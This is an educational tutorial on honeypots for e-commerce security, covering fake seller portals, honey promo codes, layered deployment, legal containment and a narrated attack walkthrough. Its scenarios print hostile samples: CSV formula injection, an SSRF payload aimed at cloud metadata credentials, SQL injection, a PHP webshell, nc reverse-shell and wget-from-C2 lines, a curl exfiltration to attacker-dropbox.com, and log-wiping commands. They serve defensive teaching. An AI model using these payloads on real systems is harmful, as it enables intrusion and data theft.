### The Trap Design (High-Interaction)

**Build a complete fake seller portal** (full VM):
```
Production:          seller.amazon.com
Honeypot:            seller-beta.amazon-internal.com  ← Looks legit
```

**What it contains**:
- Full web GUI (React frontend)
- Backend APIs (Python/Django)
- Database (PostgreSQL with fake data)
- CSV import functionality
- Webhook configuration
- API key management

**Instrumentation** (the hidden cameras):
- Host-based IDS monitoring every syscall
- Full packet capture of all network traffic
- Filesystem snapshot before/after every action
- Memory dumps when malicious process detected

### What the Attacker Sees

**Attacker logs into honey seller account**:
```
Username: seller_honey_123
Password: Welcome2024!
```

**Dashboard loads**:
```
╔════════════════════════════════════╗
║ Seller Dashboard                   ║
║                                    ║
║ Total Products: 47                 ║
║ Pending Orders: 12                 ║
║ Revenue (30d): $4,582.19          ║
║                                    ║
║ [Upload Inventory] [Settings]     ║
╚════════════════════════════════════╝
```

Everything looks production-quality!

### Attack Scenario 1: Malicious CSV Upload

**Attacker uploads**: `inventory_exploit.csv`

```csv
product_id,name,price,description
12345,"Normal Product",29.99,"Regular item"
67890,"=cmd|'/c calc'!A1",39.99,"EXPLOIT ATTEMPT"
```

**What happens in honeypot**:
- CSV parser processes file
- Detects formula injection attempt
- ✅ **Captured**: Exact exploit technique
- ✅ **Captured**: Attacker's goal (code execution via CSV)

**In production**: This vulnerability would be patched before attacker finds it

### Attack Scenario 2: SSRF Attempt

**Attacker configures webhook**:
```
POST /api/seller/webhooks
{
  "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
  "event": "order_created"
}
```

This is attempting to **steal AWS credentials** from metadata service!

**What honeypot captures**:
- ✅ The SSRF payload
- ✅ Attacker understands AWS infrastructure
- ✅ They're targeting cloud credentials

**What you learn**:
- Webhook URL validation is insufficient
- Need to block internal IP ranges
- Attacker is experienced with cloud exploits

### Attack Scenario 3: Malware Upload via "Product Image"

**Attacker uploads** what looks like `product_image.jpg`:
```
POST /api/products/upload_image
Content-Type: image/jpeg

[Binary data that's actually a PHP webshell]
```

**What honeypot captures**:
- ✅ Full malware binary
- ✅ Webshell code and backdoor functionality
- ✅ Attacker's subsequent commands when they access the shell

**Honeypot allows execution** (safely in VM):
```bash
# Attacker thinks they have shell access:
whoami
> www-data

cat /etc/passwd
> [fake but realistic user list]

wget http://attacker-server.com/rootkit.sh
> [captured! malware sample downloaded]
```

**Gold mine of intelligence**:
- Malware sample sent to threat intel team
- C2 server `attacker-server.com` blocked
- Webshell signatures added to scanners
- File upload validation hardened in production

---

## Use Case D: The Honey Promo Code (Insider Threat Detection)

### The Problem You're Solving

**Promo codes are valuable**:
- 50% off codes leaked → revenue loss
- Unlimited use codes exploited → fraud
- Partner codes stolen → relationship damage

**Threat scenarios**:
- Internal employee leaking codes
- Partner company compromised
- Scraper bots finding undocumented codes
- Social engineering attacks

You want to detect **who's leaking what**.

### The Trap Design (Honeytoken)

**Create unique promo codes that should NEVER be used**:

```
Real promo code:     SAVE20         (documented, public)
Honey promo code:    H0N3Y-X7K2     (undocumented, trapped)
```

**Where you plant honey codes**:
- Internal Slack channels (different code per channel → trace leakage)
- Partner API documentation (different code per partner)
- Employee training materials (different code per cohort)
- Fake "draft" marketing emails (test if scraped)

**The twist**: Each code is **unique** so you know exactly where it came from

```
Marketing team's Slack:   H0N3Y-MKT1
Engineering Slack:        H0N3Y-ENG1
Partner Acme Inc:         H0N3Y-ACME
Partner Widget Co:        H0N3Y-WDG
```

### What Happens When Honey Code is Used

**Someone applies code**: `H0N3Y-MKT1`

**System response** (user sees):
```
✅ Promo code applied! 20% discount
```

Looks normal! But behind the scenes...

**Instant alert**:
```
🚨 HONEY PROMO CODE USED: H0N3Y-MKT1
Source: Marketing Slack channel
Used by: Account user_12345
IP: 78.45.123.67
Device: iPhone 13, Safari
Timestamp: 2024-10-05 14:23:18 UTC
```

### What You Capture and Learn

**Data collected**:
- Which honey code → reveals leak source (Marketing Slack)
- User account → who used it (legitimate customer or attacker?)
- How they found it → scraping bot? Social engineering? Insider?
- Usage pattern → shared on coupon sites? Private use?

**Investigation paths**:

**If legitimate customer account used it**:
- How did customer get this code?
- Check: Posted on public coupon site? (scraper found it)
- Check: Forwarded from employee? (insider leak)

**If attacker account used it**:
- Burner email + VPN
- Likely scraper bot harvesting Slack history
- Indicates: Slack security compromise

### Real Scenario That Played Out

**Timeline**:
1. Day 1: Plant code `H0N3Y-ACME` in Partner Acme's API docs
2. Day 14: Code `H0N3Y-ACME` used 50 times in one hour
3. Investigation: All from same IP range (scraper bot)
4. Discovery: Acme's docs server was compromised
5. Action: Alerted Acme, helped them patch, rotated all shared credentials

**The honey code saved you**: Without it, you'd never know Acme was compromised until attackers used **real** API keys for fraud.

---

## The Deployment Architecture: How It All Fits Together

Think of your security infrastructure as **layers of traps at different scales**:

### Layer 1: The Perimeter (Massive Scale, Low-Interaction)

**Edge nodes worldwide** (Tokyo, London, New York, São Paulo):
```
Each edge node runs:
├── 10,000 fake product endpoints
├── 500 fake login pages  
├── 100 fake API endpoints
└── Lightweight logging (sends to central)
```

**What this catches**: Broad scanning, automated bots, script kiddies

**Think of it as**: Thousands of cardboard box traps scattered everywhere

### Layer 2: The Collector (Correlation Brain)

**Central security data lake**:
```
Kafka ingests logs from all edge nodes
    ↓
Elasticsearch indexes and correlates
    ↓
Correlation engine detects patterns:
    • Same IP hit 50 different honeypots
    • Credential stuffing signature detected  
    • SSRF payload observed
    ↓
Triggers escalation to high-interaction
```

**What this does**: Identifies interesting targets worth deep analysis

**Think of it as**: Security analyst reviewing all cardboard trap triggers, deciding "this one deserves the steel cage"

### Layer 3: The Deep Trap (High-Interaction Sandbox Farm)

**Isolated VM cluster**:
```
VM Pool (50 VMs ready):
├── 20x Fake seller portal VMs
├── 20x Fake customer account VMs
├── 10x Fake admin console VMs
└── Full instrumentation on each
```

**When escalation triggers**:
1. Correlation engine: "IP 45.67.89.123 looks sophisticated"
2. Load balancer: Route that IP's traffic to VM #17
3. VM #17: Presents fully realistic seller portal
4. Everything captured: syscalls, packets, memory, files

**What this catches**: Advanced attackers, APT groups, zero-days, malware samples

**Think of it as**: The steel cage trap with HD cameras, only used for worthy targets

### Layer 4: The SOC (Human Analysis)

**Security Operations Center receives**:
```
Alert: Credential stuffing from IP range 45.67.0.0/16
Evidence: 10,000 login attempts in 5 minutes
Captured: Password list from 2023 LinkedIn breach
Recommended action: Block IP range, force password resets

Analyst decision:
✅ Approved
    → WAF automatically blocks 45.67.0.0/16
    → Email sent to affected users: "Change your password"
    → Ticket created for engineering: "Harden rate limiting"
```

**What this enables**: Human expertise focused on important decisions, automation handles the rest

---

## What You Actually Monitor (The Sensors in Your Traps)

### Network Layer (Who's Knocking?)
```
Source IP:        45.67.89.123
ASN:              AS16509 (Amazon AWS)
Geolocation:      Virginia, USA
Port scanned:     80, 443, 8080, 3000
TCP flags:        SYN, ACK patterns
Flow volume:      10 MB transferred
Timing:           Packets every 100ms (automated)
```

### Application Layer (What Are They Asking For?)
```
Request:          GET /api/v1/products?limit=9999
Headers:          User-Agent: python-requests/2.28.1
                  Accept: application/json
                  (Missing: typical browser headers)
Payload:          { "query": "' OR 1=1--" }  ← SQL injection
Cookies:          (None - bot didn't handle session)
CSRF token:       (Missing - didn't parse HTML)
```

### Behavioral Layer (How Are They Acting?)
```
Request pattern:  Sequential product IDs (1,2,3,4...)
Frequency:        100 requests/minute (not human)
Traversal:        No legitimate browsing (direct API hits)
Login attempts:   Failed × 1000, then Success × 1
Time-of-day:      3 AM local time (off-hours)
```

### Artifact Layer (What Did They Leave Behind?)
```
Uploaded file:    exploit.csv (contains formula injection)
Script executed:  wget http://c2.evil.com/rootkit.sh
Malware binary:   rootkit.sh (SHA256: abc123...)
Shell commands:   whoami, cat /etc/passwd, nc -e /bin/sh
C2 communication: DNS queries to evil.com
Process tree:     apache2 → bash → wget → nc
```

### Fingerprinting Layer (Who Are They Really?)
```
Browser:          Claims "Chrome 119" but...
Canvas FP:        Missing (headless browser)
WebGL:            Not rendered (automation)
TLS client hello: Python's ssl library (not browser)
Timezone:         UTC (not user's local)
Screen resolution: Generic 1920×1080 (not real device)
Plugins:          None (real browsers have several)
```

---

## Legal and Containment: Don't Get Burned by Your Own Traps

### Privacy Landmines

**The risk**: Your honeypot might accidentally capture **real user data**

**Scenario**:
- You set up fake login page at `secure-login.yourbank.com`
- Real user typos and lands there
- Enters real username and password
- You just logged legitimate credentials

**Legal problem**: You collected real user data without consent → **GDPR violation**

**The rules**:
- ✅ Only use **honey accounts** (fake users you created)
- ✅ Never log real customer data
- ✅ If real user hits honeypot → redirect them, don't log credentials
- ✅ Document honeypot purpose for legal/compliance review

### Evidence Integrity

**The problem**: You want to use honeypot logs in court or incident response

**Challenge**: Attacker's lawyer asks "How do I know you didn't fabricate these logs?"

**Without integrity controls**: Logs are just text files you could have edited

**The solution**:
```
Every log entry is:
1. Timestamped with high-precision clock
2. Cryptographically signed (HMAC with secret key)
3. Immediately sent to write-once storage (WORM)
4. Chain of custody documented
```

**Example**:
```
Log entry:
{
  "timestamp": "2024-10-05T14:23:18.123456Z",
  "event": "credential_stuffing_attempt",
  "ip": "45.67.89.123",
  "data": { ... },
  "signature": "a7b8c9d0e1f2..."  ← Cannot be forged
}
```

### Containment: Don't Let Attackers Escape

**The nightmare scenario**:
- Attacker breaks into high-interaction VM
- VM has network access
- Attacker scans internal network
- Finds route to production systems
- Pivots to real infrastructure

**Your honeypot just gave them a foothold**

**The containment rules**:
```
High-interaction VM MUST:
├── Run in isolated network segment (separate VLAN)
├── Firewall rules: Can only talk to logging server
├── No route to production networks
├── Monitored 24/7 for escape attempts
└── Automatically destroyed and rebuilt daily
```

**Think of it as**: The steel cage trap is surrounded by a moat. Attacker can break out of the cage, but they're still trapped in the room with no exit.

---

## From Honeypot to Action: The Complete Pipeline

Let's watch one attack from **first contact to mitigation**:

### Minute 0: First Contact
```
Edge honeypot in Singapore detects:
  IP: 45.67.89.123
  Action: Scanning ports 80, 443, 8080
  Pattern: Nmap SYN scan signature
  
→ Logged to central collector
```

### Minute 2: Pattern Emerges
```
Correlation engine notices:
  Same IP hit 50 different honeypots
  Scanned 10,000 ports across 200 IPs
  Pattern matches known recon tools
  
→ Escalation triggered
```

### Minute 5: Escalation
```
Load balancer:
  "Route 45.67.89.123 to high-interaction VM #17"
  
Attacker now sees:
  Realistic seller portal with login page
  
Attacker tries:
  Username: admin
  Password: admin123
  
→ Success! (honey account)
```

### Minute 10: Deep Capture
```
VM #17 records:
  Attacker exploring dashboard
  Uploads CSV: exploit_payload.csv
  CSV contains formula injection: =cmd|'/c calc'
  
→ Exploit technique captured
```

### Minute 15: Malware Deployment
```
Attacker uploads file: update.php
  Actually a webshell
  
Attacker accesses: /update.php?cmd=whoami
  
VM captures:
  - Full webshell code
  - Commands executed
  - C2 server contacted: evil.com
  
→ Malware sample + C2 infrastructure identified
```

### Minute 20: SOC Alert
```
Security Operations Center receives alert:
  
╔════════════════════════════════════════╗
║ 🚨 HIGH PRIORITY ALERT                 ║
║                                        ║
║ Webshell Deployment Detected           ║
║ IP: 45.67.89.123                       ║
║ Target: Seller Portal Honeypot         ║
║                                        ║
║ Captured:                              ║
║ • Exploit technique (CSV injection)    ║
║ • Malware sample (webshell)            ║
║ • C2 server: evil.com                  ║
║                                        ║
║ Production Impact Check:               ║
║ ✅ Same IP attempted login on PROD     ║
║ ❌ Login failed (rate limited)         ║
║                                        ║
║ Recommended Actions:                   ║
║ 1. Block IP + ASN at WAF               ║
║ 2. Block C2 domain evil.com            ║
║ 3. Scan production for CSV vuln        ║
║ 4. Alert threat intel community        ║
╚════════════════════════════════════════╝
```

### Minute 25: Analyst Decision

**SOC analyst reviews**:
- Watches screen recording of attack
- Examines captured malware sample
- Checks: Did this IP touch production? → Yes, but blocked
- Decision: **Approve all recommended actions**

**Clicks**: `[Execute Automated Response]`

### Minute 30: Automated Mitigation

**What happens automatically**:

```
1. Firewall Update:
   Block 45.67.89.123/32          ✅ Done
   Block entire ASN AS16509?      ❌ Too broad (Amazon AWS)
   
2. DNS Blacklist:
   Add evil.com to firewall       ✅ Done
   Query threat intel: evil.com   → Known C2 (reported 30 days ago)
   
3. WAF Rules:
   Deploy CSV injection signature ✅ Done
   Pattern: =cmd|, =system|       → Block at upload
   
4. Production Scan:
   Check all CSV upload endpoints ✅ Scanning...
   Found: Seller portal has same vulnerability
   Ticket created: SEC-2024-1337  → Assign to engineering
   
5. User Protection:
   Check: Any users from 45.67.89.123?  → 0 users
   No customer action needed      ✅ Done
```

### Minute 45: Engineering Response

**Security ticket SEC-2024-1337**:
```
Title: CSV Formula Injection Vulnerability - Seller Portal

Description:
Honeypot captured exploit targeting CSV upload functionality.
Attacker can inject formulas that execute when CSV opened in Excel.

Affected Endpoint:
POST /api/seller/inventory/upload

Exploit Sample:
=cmd|'/c calc'!A1

Recommended Fix:
1. Sanitize all CSV cells starting with: = + - @
2. Prepend with single quote: '=cmd|... (renders harmless)
3. Add input validation: reject formulas

Priority: HIGH (active exploitation detected)
```

**Engineer deploys fix**:
- Code changes committed
- Tests pass
- Deployed to production in 2 hours

**Result**: Vulnerability patched **before** real users affected

### Hour 2: Threat Intelligence Sharing

**Your security team publishes**:

```
Indicator of Compromise (IOC) Report:

Threat: Seller Portal Targeting Campaign
Date: 2024-10-05
Severity: Medium

Indicators:
- IP: 45.67.89.123 (AS16509, AWS)
- C2: evil.com
- Malware: webshell_seller_portal.php (SHA256: abc123...)
- Technique: CSV formula injection → webshell upload

TTPs (Tactics, Techniques, Procedures):
1. Port scan (Nmap)
2. Default credential attempt
3. CSV upload exploitation
4. Webshell deployment
5. Reconnaissance of internal APIs

Recommended Mitigations:
- Block evil.com
- Sanitize CSV uploads
- Monitor for similar patterns
```

**Shared with**:
- FS-ISAC (Financial Services Information Sharing)
- Retail Cyber Intelligence Sharing Center (R-CISC)
- Your threat intel platform (MISP)

### Day 2: Broader Impact

**Other companies benefit**:
- Competitor sees your IOC report
- Checks their logs: "We were hit by same IP!"
- Blocks evil.com proactively
- Patches their CSV upload

**Your honeypot just protected the entire industry**

---

## The Attacker's Perspective: Walking Into the Trap

Let's experience this from the **attacker's viewpoint** to really feel the deception:

### Stage 1: Initial Reconnaissance (Attacker Thinks They're Scouting)

**Attacker's goal**: Find vulnerable e-commerce sites

**Attacker runs**:
```bash
$ nmap -sS -p80,443 -iL targets.txt -oG scan_results.txt
```

**What attacker sees**:
```
Scanning 1000 hosts...
Host: honeypot.example.com (45.123.67.89)
  80/tcp   open   http
  443/tcp  open   https
  
OS detection: Linux 5.x
Service: Apache/2.4.41
```

**Attacker thinks**: "Looks like a normal web server. Let's check it out."

**Reality**: Honeypot just logged attacker's IP and scanning pattern. Attacker doesn't know they're already being watched.

### Stage 2: Application Probing (Attacker Thinks They're Exploring)

**Attacker visits**: `https://honeypot.example.com`

**Sees**:
```
╔════════════════════════════════════════╗
║     🛒 ShopSmart E-Commerce            ║
║                                        ║
║  [Search Products]                     ║
║                                        ║
║  Featured Products:                    ║
║  • Wireless Headphones - $149.99       ║
║  • Smart Watch Pro - $299.99           ║
║  • USB-C Cable - $12.99                ║
║                                        ║
║  [Seller Login] [Customer Login]       ║
╚════════════════════════════════════════╝
```

**Attacker thinks**: "Looks like a real e-commerce site. Let me look for vulnerabilities."

**Attacker probes**:
```bash
$ curl -H "User-Agent: Mozilla/5.0" \
  https://honeypot.example.com/api/products?id=1'OR'1'='1
```

**Response**:
```json
{
  "error": "Invalid product ID",
  "status": 400
}
```

**Attacker thinks**: "SQL injection blocked. They have some security. Let me try something else."

**Reality**: Honeypot logged the SQL injection attempt. Security team now knows attacker's skill level: "They try basic attacks first."

### Stage 3: Finding the Entry Point (Attacker Thinks They Found a Weakness)

**Attacker discovers**: Seller login portal at `/seller/login`

**Attacker tries default credentials**:
```
Username: admin
Password: admin123
```

**Response**:
```
❌ Login failed. Invalid credentials.
```

**Attacker tries**:
```
Username: seller
Password: password123
```

**Response**:
```
✅ Login successful! Redirecting...
```

**Attacker celebrates**: "Yes! Got in with default credentials. Amateur security."

**Reality**: They just logged into a **honey account**. Every action from now on is recorded in HD quality. The trap snapped shut and they don't even know it.

### Stage 4: Exploration (Attacker Thinks They Own the System)

**Attacker sees dashboard**:
```
╔════════════════════════════════════════╗
║ Seller Dashboard - Welcome back!       ║
║                                        ║
║ Your Store Stats:                      ║
║ • Total Products: 47                   ║
║ • Pending Orders: 12                   ║
║ • Revenue (30d): $4,582.19             ║
║                                        ║
║ Quick Actions:                         ║
║ [Upload Inventory] [Manage Products]   ║
║ [View Orders] [Settings]               ║
╚════════════════════════════════════════╝
```

**Attacker clicks around**:
- Views order list (fake orders with fake customer data)
- Checks settings (fake API keys, fake webhook config)
- Downloads product catalog (honeytoken product IDs)

**Attacker thinks**: "This is a legitimate seller account. I can cause real damage here."

**Reality**: 
- Every click logged
- Every page view recorded
- Screen recording of entire session
- Attacker's behavior pattern being analyzed in real-time

### Stage 5: Exploitation Attempt (Attacker Thinks They're Being Clever)

**Attacker decides**: "Let me try to get code execution."

**Uploads malicious CSV**: `inventory_update.csv`
```csv
product_id,name,price
12345,"Normal Product",29.99
67890,"=cmd|'/c powershell -enc [base64_payload]'!A1",39.99
```

**Clicks**: `[Upload]`

**Response**:
```
✅ Inventory updated successfully!
   2 products imported.
```

**Attacker thinks**: "Perfect! When they open this CSV in Excel, my payload executes. I'll get a reverse shell."

**Reality**:
- Exploit captured in full detail
- Payload decoded and analyzed
- Technique documented
- Production systems being patched right now
- Attacker has no idea their exploit failed (honeypot pretended it worked)

### Stage 6: Escalation Attempt (Attacker Gets Greedy)

**Attacker explores more**: Finds "Admin API" link

**Makes request**:
```bash
GET /api/admin/users?limit=1000
Authorization: Bearer [stolen_token]
```

**Response** (honeypot provides realistic fake data):
```json
{
  "users": [
    {"id": 1, "username": "admin", "email": "admin@shop.com"},
    {"id": 2, "username": "seller_001", "email": "s1@example.com"},
    ...
    {"id": 1000, "username": "seller_999", "email": "s999@example.com"}
  ],
  "total": 1000
}
```

**Attacker gets excited**: "Jackpot! I have access to all user data!"

**Attacker starts exfiltrating**:
```bash
curl -X POST https://attacker-dropbox.com/upload \
  -d @stolen_users.json
```

**Attacker thinks**: "Data exfiltration successful. Mission complete."

**Reality**:
- "Stolen" data is all fake (honey user accounts)
- Attacker's dropbox URL captured: `attacker-dropbox.com`
- That domain is now blocked on your firewall
- Attacker wasted time stealing worthless fake data
- Their entire infrastructure is now compromised (you know their dropbox)

### Stage 7: The Persistence Attempt (Attacker Thinks They're Securing Access)

**Attacker wants**: To maintain access for future attacks

**Uploads backdoor**: `maintenance.php`
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

**Tests backdoor**:
```bash
curl "https://honeypot.example.com/maintenance.php?cmd=whoami"
```

**Response**:
```
www-data
```

**Attacker thinks**: "Excellent. I have persistent shell access. I can come back anytime."

**Reality**:
- Webshell code captured and analyzed
- Added to malware signature database
- Production servers are now scanning for this exact backdoor
- Attacker's access is to a **sandboxed VM that resets every 24 hours**
- When they return tomorrow, their backdoor will be gone (VM rebuilt)

### Stage 8: The Exit (Attacker Thinks They Got Away Clean)

**Attacker covers tracks** (or so they think):
```bash
# Delete logs
rm /var/log/apache2/access.log

# Clear bash history  
history -c
```

**Attacker disconnects**

**Attacker's assessment**: "Successful breach. Compromised seller portal, exfiltrated user data, planted backdoor. They'll never know I was here."

**The Reality They Don't See**:

```
╔════════════════════════════════════════════════════════╗
║ HONEYPOT CAPTURE COMPLETE - Session #2024-1337        ║
╠════════════════════════════════════════════════════════╣
║ Duration: 2 hours 34 minutes                           ║
║                                                        ║
║ Attacker Profile:                                      ║
║ • Skill Level: Intermediate                            ║
║ • Tools: nmap, curl, custom scripts                    ║
║ • TTPs: Default creds → CSV exploit → webshell         ║
║                                                        ║
║ Captured Artifacts:                                    ║
║ • 247 HTTP requests (full headers + payloads)          ║
║ • 3 exploit attempts (SQL, CSV, webshell)              ║
║ • 2 malware samples (CSV payload + PHP backdoor)       ║
║ • 1 C2 server (attacker-dropbox.com)                   ║
║ • Full screen recording (2.5 GB video)                 ║
║ • Network packet capture (18,432 packets)              ║
║ • System call trace (45,223 syscalls)                  ║
║                                                        ║
║ Intelligence Value: HIGH                               ║
║ • New CSV injection variant (not in CVE database)      ║
║ • C2 infrastructure identified                         ║
║ • Attack pattern documented for ML training            ║
║                                                        ║
║ Countermeasures Deployed:                              ║
║ ✅ Attacker IP blocked globally                        ║
║ ✅ C2 domain blacklisted                               ║
║ ✅ Production vulnerability patched                    ║
║ ✅ IOCs shared with threat intel community             ║
║ ✅ User accounts secured (none compromised)            ║
║                                                        ║
║ Attacker Status: NEUTRALIZED                           ║
║ Actual Damage: ZERO                                    ║
╚════════════════════════════════════════════════════════╝
```

**The attacker will never know**:
- They attacked a decoy from the beginning
- Every "success" was a controlled deception
- Their entire attack chain is now documented
- Their tools and techniques are neutralized
- The real systems were never at risk

**This is the power of honeypots**: Attacker thinks they won. You actually won.

---

## The Bottom Line: When and How to Use Honeypots

### Use Low-Interaction Honeypots When:

✅ **You need broad coverage**
- Monitor thousands of endpoints
- Detect scanning and reconnaissance
- Early warning system for attacks

✅ **You have limited resources**
- Small security team
- Limited budget
- Can't maintain complex infrastructure

✅ **You want to detect automated threats**
- Scraping bots
- Credential stuffing
- Port scanning
- Automated vulnerability scanners

**Think**: Cast a wide net to catch lots of small fish

### Use High-Interaction Honeypots When:

✅ **You need deep forensics**
- Capture full malware samples
- Understand sophisticated attack chains
- Reverse-engineer exploits

✅ **You're hunting advanced threats**
- APT (Advanced Persistent Threat) groups
- Nation-state actors
- Sophisticated criminal organizations

✅ **You want to understand attacker behavior**
- What do they do after initial compromise?
- What tools do they use?
- What's their ultimate goal?

**Think**: Set a sophisticated trap for the big fish

### Use Hybrid Approach When:

✅ **You want best of both worlds**
- Broad coverage + deep analysis
- Cost-effective but thorough
- Most common real-world deployment

**Think**: Net catches everything, zoom in on interesting targets

### For E-Commerce Specifically, Focus On:

🎯 **Scraping bots** → Low-interaction fake product catalogs  
🎯 **Credential stuffing** → Hybrid approach with honey accounts  
🎯 **Coupon/promo abuse** → Honeytoken codes  
🎯 **Seller portal attacks** → High-interaction full portal VMs  
🎯 **Supply chain threats** → High-interaction CSV/API endpoints  
🎯 **Payment fraud** → Honey payment processing endpoints  

---

## Key Takeaways: What to Remember

### The Core Concept
**Honeypots** = Intentional decoys that let attackers "succeed" while you watch and learn

### The Two Flavors
- **Low-interaction** = Cheap, safe, scalable, but shallow (cardboard box trap)
- **High-interaction** = Expensive, risky, detailed, but rich (steel cage trap)

### The Real Value
Not just **detection** (IDS already does that), but:
- Understanding **attacker techniques** before they hit production
- Collecting **malware samples** for analysis
- Identifying **C2 infrastructure** to block
- **Training data** for ML-based security
- **Intelligence sharing** to protect the whole community

### The E-Commerce Applications
- Fake products catch scrapers
- Honey accounts catch credential stuffers  
- Honey promo codes catch leaks
- Fake seller portals catch supply chain attacks
- You protect revenue, customers, and brand

### The Operational Reality
- Deploy **broad low-interaction** for visibility
- Deploy **selective high-interaction** for depth
- **Automate response** to honeypot alerts
- **Share intelligence** with security community
- **Legal compliance** is critical (privacy, evidence)

### The Attacker's Blind Spot
They think they're attacking a real system. They never suspect the entire environment was designed to **let them succeed** while capturing everything they do. That's the beautiful irony of honeypots: the attacker's "victory" is your intelligence win.

---

## Want to Try This Yourself?

### Quick Start (1 Hour Project)

**Set up a simple low-interaction honeypot**:

1. **Spin up a cheap VPS** ($5/month):
   ```bash
   # DigitalOcean, Linode, Vultr - pick any
   ```

2. **Install Cowrie** (SSH/Telnet honeypot):
   ```bash
   git clone https://github.com/cowrie/cowrie
   cd cowrie
   virtualenv cowrie-env
   source cowrie-env/bin/activate
   pip install -r requirements.txt
   ./bin/cowrie start
   ```

3. **Watch attackers roll in**:
   ```bash
   tail -f var/log/cowrie/cowrie.json
   ```

4. **Within 24 hours**, you'll see:
   - Bots trying default credentials
   - Malware download attempts  
   - Cryptocurrency miners trying to install
   - Port scanners probing your "SSH server"

**You'll feel it**: The thrill of watching real attackers fall for your trap in real-time.

### Advanced Project (Weekend Challenge)

**Build a fake web app honeypot**:
- Use Flask/Django to build realistic-looking login portal
- Add fake admin panel with fake data
- Log every request, every parameter, every attempt
- Deploy to AWS/cloud with isolated network
- Watch attackers try to "hack" your decoy

**The lesson**: You'll understand honeypots by building one. The concepts become **tangible** when you watch real attackers interact with your creation.

---

**Remember**: Every attacker captured in your honeypot is one less attacker succeeding against real systems. You're not just defending your organization - you're contributing intelligence that defends the entire ecosystem.

That's the art of the trap.